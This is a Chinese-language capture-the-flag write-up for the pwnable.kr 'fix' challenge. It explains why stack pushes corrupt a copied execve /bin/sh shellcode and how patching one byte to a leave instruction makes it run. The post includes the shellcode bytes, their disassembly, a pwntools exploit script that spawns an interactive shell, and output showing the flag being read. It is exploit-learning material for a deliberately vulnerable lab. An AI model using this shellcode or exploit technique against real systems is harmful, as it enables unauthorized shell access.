 ```yaml
---
title: pwnable.kr-fix
date: 2018-02-27 22:46:00
tags: [pwnable.kr,PWN]
categories: CTF
---
```

# 前言
看似简单的改代码题，但是还是需要强大的汇编知识。花了很长时间，主要是自己对指令不是很熟悉。
# 分析
先分析源码`fix.c`
```c
#include <stdio.h>

// 23byte shellcode from http://shell-storm.org/shellcode/files/shellcode-827.php
char sc[] = "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69"
		"\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80";

void shellcode(){
	// a buffer we are about to exploit!
	char buf[20];

	// prepare shellcode on executable stack!
	strcpy(buf, sc);

	// overwrite return address!
	*(int*)(buf+32) = buf;

	printf("get shell\n");
}

int main(){
        printf("What the hell is wrong with my shellcode??????\n");
        printf("I just copied and pasted it from shell-storm.org :(\n");
        printf("Can you fix it for me?\n");

	unsigned int index=0;
	printf("Tell me the byte index to be fixed : ");
	scanf("%d", &index);
	fflush(stdin);

	if(index > 22)	return 0;

	int fix=0;
	printf("Tell me the value to be patched : ");
	scanf("%d", &fix);

	// patching my shellcode
	sc[index] = fix;	

	// this should work..
	shellcode();
	return 0;
}

```
程序逻辑简单，如题目所说`shellcode`无法正确执行，但我们只能修改其中一个字节。看了`shellcode`函数，开始以为是地址布置出错，但是看了反汇编代码发现返回地址的计算没有错误，于是反汇编一下`shellcode`看看有没有问题
```nasm
Python 2.7.12 (default, Dec  4 2017, 14:50:18) 
[GCC 5.4.0 20160609] on linux2
Type "help", "copyright", "credits" or "license" for more information.
>>> from pwn import *
>>> a="\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69"
>>> a+="\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80"
>>> print disasm(a)
   0:   31 c0                   xor    eax,eax
   2:   50                      push   eax
   3:   68 2f 2f 73 68          push   0x68732f2f
   8:   68 2f 62 69 6e          push   0x6e69622f
   d:   89 e3                   mov    ebx,esp
   f:   50                      push   eax
  10:   53                      push   ebx
  11:   89 e1                   mov    ecx,esp
  13:   b0 0b                   mov    al,0xb
  15:   cd 80                   int    0x80
>>> 

```
仔细分析代码发现`shellcode`并没有问题，后来放在gdb调试的时候发现在执行`shellcode`的时候，`shellcode`的代码会变化。。这就很奇怪了，啥问题呢？仔细分析栈空间的排布就知道了，`shellcode`布置在栈中占了`23`个字节，`buf`变量的位置是`ebp-0x1c`（反汇编代码就能看出），所以`shellcode`尾部达到了`ebp-5`,然而函数返回执行`shellcode`时`esp`指向返回地址下面4个字节，这里相距`shellcode`有`13`字节，所以后续的`pop`操作只能执行3次，否则就会覆盖`shellcode`的部分代码，造成执行失败。
知道了失败的原因那么如何通过只修改一个字节达到执行成功的目的呢？这里确实得熟悉汇编指令才行，我的思路是修改`push eax`为`leave`指令（他们都是单子节指令），这样当执行到这里时就相当于执行了`mov esp，ebp;pop ebp`。于是栈顶就下降了后续的`pop`就不会修改`shellcode`了，但是这样的话`shellcode`虽然会正确执行但是会报错
```bash
root@1:~/桌面/test$ ./fix
What the hell is wrong with my shellcode??????
I just copied and pasted it from shell-storm.org :(
Can you fix it for me?
Tell me the byte index to be fixed : 15
Tell me the value to be patched : 201
get shell
/bin//sh: 0: Can't open ����
                             P��c
root@1:~/桌面/test$ 
```
这说明我们已经成功执行`/bin/sh`了，但是似乎这样的修改增加`/bin/sh`的参数。确实如此，执行`leave`指令后，栈已经变了，就无法保证`ecx`指向的第二个字符串是0,所以可能就会多出别的参数。这里可以根据错误提示新建一个和错误提示的一样的文件，然后在里面写入`sh`，这样当再次执行程序时，就会试图执行这个文件的命令了。另外这个多出的参数由于是栈上的数据，而不是栈地址，所以它不具有随机性，所以这种方法可行而且实际上确实可行。下面贴出exp
```python
from pwn import *

def work():
    context(arch='i386',os='linux',log_level='info')
    the_path = '/home/fix/fix'
    r = process(the_path)
    
    #r.recvuntil("fixed : ")
    r.sendline("15")
    #r.recvuntil("patched : ")
    r.sendline("201")
    r.recvuntil('get shell\n')
    error_text = r.recvline()
    r.kill()
    
    a = error_text.find('open ')
    fname = error_text[a+5:-1]
    f = open(fname,'w')
    f.write('sh\n')
    f.close()
    
    r = process(the_path)
    r.sendline("15")
    r.sendline("201")
    r.interactive()

work()
```
```bash
fix@ubuntu:/tmp$ python 1.py
[+] Starting local process '/home/fix/fix': Done
[*] Stopped program '/home/fix/fix'
[+] Starting local process '/home/fix/fix': Done
[*] Switching to interactive mode
What the hell is wrong with my shellcode??????
I just copied and pasted it from shell-storm.org :(
Can you fix it for me?
Tell me the byte index to be fixed : Tell me the value to be patched : get shell
$ ls
ls: cannot open directory '.': Permission denied
$ cd /home/fix
$ ls
fix  fix.c  flag  intended_solution.txt
$ cat flag
Sorry for blaming shell-strom.org :) it was my ignorance!
$  
```
注意要把exp上传题目平台执行
# 总结
虽说是改代码的题，但是还是学到了很多。